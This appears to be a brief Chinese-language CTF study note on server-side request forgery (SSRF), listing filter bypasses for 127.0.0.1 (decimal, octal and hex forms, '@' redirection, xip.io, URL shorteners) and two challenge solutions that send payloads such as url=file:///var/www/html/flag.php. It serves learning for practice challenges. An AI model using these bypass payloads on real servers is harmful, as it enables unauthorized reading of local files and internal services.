

一些基础知识要知道
绕过ssrf的方法
1.数值绕过
127.0.0.1
十进制 = 2130706433
八进制 = 0177.00.00.01
十六进制 = 0x7f.0x0.0x0.0x1
2. @跳转绕过
http://www.baidu.com@127.0.0.1 会跳转
3. xip.io解析
127.0.0.1.xip.io
4.短网站转换https://sina.lt/
ssrf 1 题
1 | <?php |
先看懂curl是怎么工作的
然后直接post 本地打入
url=file:///var/www/html/flag.php
第二题
数值转换绕过
url=http://2130706433/flag.php